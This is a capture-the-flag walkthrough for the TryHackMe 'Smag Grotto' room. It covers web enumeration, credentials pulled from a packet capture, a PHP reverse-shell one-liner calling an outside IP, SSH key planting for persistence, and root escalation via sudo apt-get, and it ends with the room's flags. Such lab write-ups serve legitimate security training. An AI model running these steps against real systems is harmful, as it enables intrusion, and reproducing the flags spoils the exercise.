

# Smag Grotto

Do you remember how to analyse packets?

[Smag Grotto](https://tryhackme.com/room/smaggrotto)

## Topic's

- Network Enueration
- Web Enumeration
- Network Forensics
- Stored Passwords & Keys
- Misconfigured Binaries

## Appendix archive

Password: `1 kn0w 1 5h0uldn'7!`

## Task 1 Smag Grotto

Deploy the machine and get root privileges.

```
kali@kali:~/CTFs/tryhackme/Smag Grotto$ gobuster dir -u 10.10.8.31 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.8.31
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/10/14 12:21:37 Starting gobuster
===============================================================
/mail (Status: 301)
Progress: 5966 / 220561 (2.70%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/10/14 12:22:05 Finished
===============================================================
```

[http://10.10.8.31/mail/](http://10.10.8.31/mail/)

[http://10.10.8.31/aW1wb3J0YW50/dHJhY2Uy.pcap](http://10.10.8.31/aW1wb3J0YW50/dHJhY2Uy.pcap)



```
Frame 4: 268 bytes on wire (2144 bits), 268 bytes captured (2144 bits)
Ethernet II, Src: PcsCompu_57:81:43 (08:00:27:57:81:43), Dst: PcsCompu_dd:5e:de (08:00:27:dd:5e:de)
Internet Protocol Version 4, Src: 192.168.33.10, Dst: 192.168.33.69
Transmission Control Protocol, Src Port: 34030, Dst Port: 80, Seq: 1, Ack: 1, Len: 202
Hypertext Transfer Protocol
    POST /login.php HTTP/1.1\r\n
    Host: development.smag.thm\r\n
    User-Agent: curl/7.47.0\r\n
    Accept: */*\r\n
    Content-Length: 39\r\n
    Content-Type: application/x-www-form-urlencoded\r\n
    \r\n
    [Full request URI: http://development.smag.thm/login.php]
    [HTTP request 1/1]
    [Response in frame: 6]
    File Data: 39 bytes

HTML Form URL Encoded: application/x-www-form-urlencoded
    Form item: "username" = "helpdesk"
    Form item: "password" = "cH4nG3M3_n0w"
```

`development.smag.thm`

`helpdesk:cH4nG3M3_n0w`

[http://development.smag.thm/](http://development.smag.thm/)

[http://development.smag.thm/admin.php](http://development.smag.thm/admin.php)

```php
php -r '$sock=fsockopen("10.8.106.222",9001);exec("/bin/bash -i <&3 >&3 2>&3");'
```

```
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDO7GTxIFv/SEVqelwR1OrCvcDRsaOYuyU3JtdaFxv1IPMxp8soS007K9eeQyZvpSiU7ynIhwJsSrfhPH9PWvpPF937Ppe8+LX5e5b+5FsFMoVw6dkwWW2fNImlDcXf273vD/7bTRB+SBo+UcBuIR31ERpM+90xCNKv+HERbiq1TznnBZXJ16Pxu2VBfSCLF4ZjPO4BFG62IQQmkK1e3v3CeiF2b8t+lbS2LrUCbLKdPYvhH6rzoz1LoPwvNOryTivgjDhs/xGFBY3RThAKBiLJXTOAx4qLf4FMEo0Cr8y6GBz3mtLj/UJzNctwllvj4NwVgDpoTqt1EsMA+d1BQYlO5XF4CmhGbKyQamvgrXzdAUKgE1sZ1oel84A3POCrOGJdngPRM9EkUWI9H6619SVmohjukRfWRbMQaUz1mxCz8SUDJlGZWs9kJgKec/LqgjyJxH6VV3ArOKMdoaRQ3BNwHMVmONWFZVOvj+QzXtSWd+ubAdO4HdNwv/ehUj86Qzs= kali@kali" > /opt/.backups/jake_id_rsa.pub.backup
```

```
kali@kali:~/CTFs/tryhackme/Smag Grotto$ ssh jake@10.10.8.31
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Fri Jun  5 10:15:15 2020
jake@smag:~$ ls
user.txt
jake@smag:~$ cat user.txt
iusGorV7EbmxM5AuIe2w499msaSuqU3j
```

```
jake@smag:~$ sudo -l
Matching Defaults entries for jake on smag:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get
```

[https://gtfobins.github.io/gtfobins/apt-get/#sudo](https://gtfobins.github.io/gtfobins/apt-get/#sudo)

```
jake@smag:~$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/bash
root@smag:/tmp# cd /root
root@smag:/root# ls
root.txt
root@smag:/root# cat root.txt
uJr6zRgetaniyHVRqqL58uRasybBKz2T
```

1. What is the user flag?

`iusGorV7EbmxM5AuIe2w499msaSuqU3j`

2. What is the root flag?

`uJr6zRgetaniyHVRqqL58uRasybBKz2T`
